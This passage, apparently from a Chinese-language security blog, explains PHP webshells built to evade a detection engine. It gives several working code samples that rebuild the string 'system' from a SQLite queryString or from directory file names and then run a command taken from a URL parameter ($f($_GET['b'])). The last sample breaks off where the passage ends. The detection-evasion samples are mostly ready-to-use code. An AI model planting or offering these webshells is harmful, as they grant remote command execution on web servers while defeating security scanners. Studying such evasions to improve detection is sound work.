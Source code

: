 之后，我将这段编码后的数据写入wenshell，利用file\_put\_contents写入文件中，此时这个文件就变成一个可以被PDO识别的数据库文件。

数据库文件里可以不需要数据，只要有一个名为test的表就行了。因为我是利用PDO::prepare会返回一个PDOStatement对象，这个对象里有一个queryString属性，我使用substr从里面提取出"system"。

有一点需要注意，PDO::prepare是一个SQL语句预处理函数，然后没有正确连接数据库，以及库中没有正确的表，是不会返回PDOStatement对象的。

`<?php
$db_data = "[数据库文件base64编码]";

file_put_contents('./111', base64_decode($db_data));

$path = dirname(__FILE__) . $_GET['a'];

$db = new PDO("sqlite:" . $path);

$sql_stmt = $db->prepare('select * from test where name="system"');
$sql_stmt->execute();

$f = substr($sql_stmt->queryString, -7, 6);
$f($_GET['b']);` 

[从目录获取"system"](#toc_system)
----------------------------

FilesystemIterator是一个迭代器，可以获取到目标目录下的所有文件信息。于是我先使用file\_put\_contents写入一个名为"system"的文件，然后利用FilesystemIterator遍历目录，拿到字符串"system“，成功绕过引擎。

`<?php 
function fun($a){
//fun可以将数字451232还原为字符串"system"
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
file_put_contents('./'.fun(intval(substr(__FILE__, -10, 6))).'.jntm', '');
$fi = new FilesystemIterator(dirname(__FILE__));
$f = '';
foreach($fi as $i){
    // var_dump($i->__toString());
    if (substr($i->__toString(), -4,4)=='jntm')
        $f = substr($i->__toString(), -11,6);
}
$f($_GET['b']);` 

除了FilesystemIterator，dir也有同样的效果，可以用来遍历目录信息。

`<?php 
function fun($a){
//fun可以将数字451232还原为字符串"system"
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
file_put_contents('./'.fun(intval(substr(__FILE__, -10, 6))).'.jntm', '');
$objDir = dir(dirname(__FILE__));
$f = '';
while(($e=$objDir->read())!=FALSE){
    if (substr($e, -4,4)=='jntm')
        $f = substr($e, -11,6);
}